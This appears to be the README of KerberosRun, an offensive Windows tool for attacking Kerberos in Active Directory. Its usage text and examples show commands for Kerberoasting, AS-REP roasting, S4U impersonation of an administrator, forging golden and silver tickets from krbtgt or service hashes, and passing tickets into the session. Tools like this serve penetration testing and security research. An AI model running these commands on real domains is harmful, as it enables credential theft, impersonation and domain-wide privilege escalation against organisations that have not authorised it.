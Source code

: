 # Authentication Flow Details

[AS Exchange](Authentication/AS_Exchange_DecryptedTGT.md)

[TGS Exchange: Unconstrained Delegation](Authentication/TGS_Exchange_UnconstrainedDelegation.md)

[TGS Exchange: S4U](Authentication/TGS_Exchange_S4U.md)

[TGS Exchange: Decrypted With PAC](Authentication/TGS_Exchange_DecryptedWithPAC.md)

[All In One](Authentication/AllInOne.md)



# KerberosRun


    Usage: KerberosRun.exe -h

    --Kerberoast            Kerberoasting
        --User*             (A valid username)
        --Pass              (A valid password)
     Or --RC4/AES128/AES256 (A valid hash)
        --Domain            (A valid domain name, default: current domain)
        --SPN*              Target SPN for Kerberoasting

    --Asreproast            ASREPRoasting
        --User*             (A valid username that does not require PreAuth)
        --Domain            (A valid domain name, default: current domain)
        --Format            Output Hash format (John/Hashcat, Default: Hashcat)

    --S4U2Self              Service for User to Self
        --User*             (A valid username that has SPN set)
        --Pass              (A valid password)
     Or --RC4/AES128/AES256 (A valid hash)
        --Domain            (A valid domain name, default: current domain)
        --ImperonsateUser*  (A user to impersonate)
        --PTT               Pass the ticket into current session

    --S4U                   S4U2Self and S4U2Proxy
        --User*             A valid username that has SPN set
        --Pass              (A valid password)
     Or --RC4/AES128/AES256 (A valid hash)
        --Domain            (A valid domain name, default: current domain)
        --Imperonsate*      (A user to impersonate)
        --SPN*              Target SPN for impersonate user
        --PTT               Pass the ticket into current session

    --Golden                Build a Golden Ticket
        --RC4/AES128/AES256 krbtgt account hash
        --DomainSid*        Domain SIDs
        --Domain            (A valid domain name, default: current domain)
        --UserID            User ID (default: 500)
        --User*             User name for the golden ticket
        --PTT               (Pass the ticket into current session)

    --Sliver                Make a Sliver Ticket
        --RC4/AES128/AES256 Service account hash
        --DomainSid*        Domain SID
        --Domain            (A valid domain name, default: current domain)
        --Service*          Service name (HTTP/CIFS/HOST...)
        --Host*             Target Servers
        --User*             User name for the sliver ticket
        --PTT               (Pass the ticket into current session)

    --Ticket                Pass base64 encoded kirbi ticket into current session

    Example:
        .\KerberosRun.exe --Asreproast --user username --verbose
        .\KerberosRun.exe --Kerberoast --user username --pass password --spn service/srv.domain.com
        .\KerberosRun.exe --Kerberoast --user username --rc4 [RC4Hash] --spn service/srv.domain.com
        .\KerberosRun.exe --S4U2Self --user username --aes128 [AES128Hash] --impersonateuser administrator --verbose
        .\KerberosRun.exe --S4U --user username --aes256 [AES256Hash] --impersonateuser administrator --spn ldap/dc1.domain.com --ptt
        .\KerberosRun.exe --golden --user administrator --userid 500 --domainsid  [DomainSID] --RC4 [krbtgtHash] --ptt
        .\KerberosRun.exe --sliver --user administrator --domainsid  [DomainSID] --RC4 [srvHash] --Service HTTP --HOST DC01$ -ptt
        .\KerberosRun.exe --Ticket Base64EncodedKirbiString
